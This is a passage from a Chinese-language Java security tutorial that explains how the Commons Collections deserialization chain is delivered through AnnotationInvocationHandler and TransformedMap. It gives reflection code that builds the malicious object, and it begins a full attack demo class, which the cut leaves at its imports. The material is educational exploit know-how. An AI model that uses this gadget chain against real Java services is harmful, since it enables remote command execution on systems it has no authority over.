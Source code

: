 上图中的第`352`行中的`memberValues`是`AnnotationInvocationHandler`的成员变量，`memberValues`的值是在`var1.defaultReadObject();`时反序列化生成的，它也就是我们在创建`AnnotationInvocationHandler`时传入的带有恶意攻击链的`TransformedMap`。需要注意的是如果我们想要进入到`var5.setValue`这个逻辑那么我们的序列化的`map`中的`key`必须包含创建`AnnotationInvocationHandler`时传入的注解的方法名。

既然利用`AnnotationInvocationHandler`类我们可以实现反序列化`RCE`,那么在序列化`AnnotationInvocationHandler`对象的时候传入我们精心构建的包含了恶意攻击链的`TransformedMap`对象的序列化字节数组给远程服务，对方在反序列化`AnnotationInvocationHandler`类的时候就会触发整个恶意的攻击链，从而也就实现了远程命令执行了。

**创建`AnnotationInvocationHandler`对象：**

因为`sun.reflect.annotation.AnnotationInvocationHandler`是一个内部API专用的类，在外部我们无法通过类名创建出`AnnotationInvocationHandler`类实例，所以我们需要通过反射的方式创建出`AnnotationInvocationHandler`对象：

```java
// 创建Map对象
Map map = new HashMap();

// map的key名称必须对应创建AnnotationInvocationHandler时使用的注解方法名，比如创建
// AnnotationInvocationHandler时传入的注解是java.lang.annotation.Target，那么map
// 的key必须是@Target注解中的方法名，即：value，否则在反序列化AnnotationInvocationHandler
// 类调用其自身实现的readObject方法时无法通过if判断也就无法通过调用到setValue方法了。
map.put("value", "value");

// 使用TransformedMap创建一个含有
Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

// 获取AnnotationInvocationHandler类对象
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

// 获取AnnotationInvocationHandler类的构造方法
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

// 设置构造方法的访问权限
constructor.setAccessible(true);

// 创建含有恶意攻击链(transformedMap)的AnnotationInvocationHandler类实例，等价于：
// Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
Object instance = constructor.newInstance(Target.class, transformedMap);
```

`instance`对象就是我们最终用于序列化的`AnnotationInvocationHandler`对象，我们只需要将这个`instance`序列化后就可以得到用于攻击的`payload`了。

**完整的攻击示例Demo:**

```java
package com.anbai.sec.serializes;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.Arrays;
import java.util.HashMap;
import java.util.Map;

/**
 * Creator: yz
 * Date: 2019/12/16
 */
```